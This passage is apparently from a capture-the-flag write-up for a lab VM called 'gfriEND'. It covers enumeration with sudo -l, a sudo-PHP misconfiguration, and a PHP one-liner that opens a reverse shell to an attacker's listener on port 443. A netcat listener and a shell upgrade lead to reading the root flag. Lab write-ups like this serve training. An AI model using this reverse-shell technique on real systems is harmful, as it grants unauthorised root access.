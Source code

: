 Now your last job is get access to the root and read the flag \^_\^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}

Privilege Escalation
--------------------

### Enumeration (sudo -l)

alice\@gfriEND:\~/.my_secret\$ sudo -l

Matching Defaults entries for alice on gfriEND:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User alice may run the following commands on gfriEND:

(root) NOPASSWD: /usr/bin/php

Looks like PHP can be executed as root, which means reverse shell can be
executed as root.

### Escalation (php)

PHP can be used to spawn a reverse shell as per below.

#### Victim machine.

alice\@gfriEND:\~\$ sudo /usr/bin/php -r
'\$sock=fsockopen("192.168.211.146",443);exec("/bin/sh -i \<&3 \>&3 2\>\&3");'

#### Attacker machine.

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.148] 48892

\# python -c "import pty;pty.spawn('/bin/bash')"

### Root Flag

root\@gfriEND:\~\# cd /root

cd /root

root\@gfriEND:/root\# ls

ls

flag2.txt

root\@gfriEND:/root\# cat flag2.txt

cat flag2.txt

\_______\_ \_\_ \___________._\_ \___________._\_ ._.
